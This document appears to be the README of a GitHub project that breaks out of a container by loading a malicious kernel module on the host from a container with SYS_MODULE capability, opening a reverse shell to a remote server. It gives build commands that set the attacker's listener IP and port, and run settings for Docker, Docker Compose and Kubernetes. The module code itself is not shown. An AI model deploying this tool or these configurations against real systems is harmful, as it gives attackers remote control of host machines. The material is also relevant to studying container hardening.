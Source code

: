 # Container Breakout Using Kernel Modules

Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on top of the host (like a virtual machine), containers share the host's resources. This makes escaping a container slightly easier than VM if it lacks proper security controls. If the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, is the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within a container. This project exploits that capability to create a reverse from the local host to a remote server by installing a malicious kernel module.

![Diagram of the breakout](https://github.com/SudoYummy/kernel_breakout/blob/main/images/diagram.png)

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux.
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
The default build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory as the Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port insure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the following in the container specification:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```

# References
For further reading and sources check the following pages:
* [Docker Prvilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privileged)
* [Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
* [Technical write-up on how to escape an existing privileged container](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)
* [3 Docker Breakout Techniques](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities)
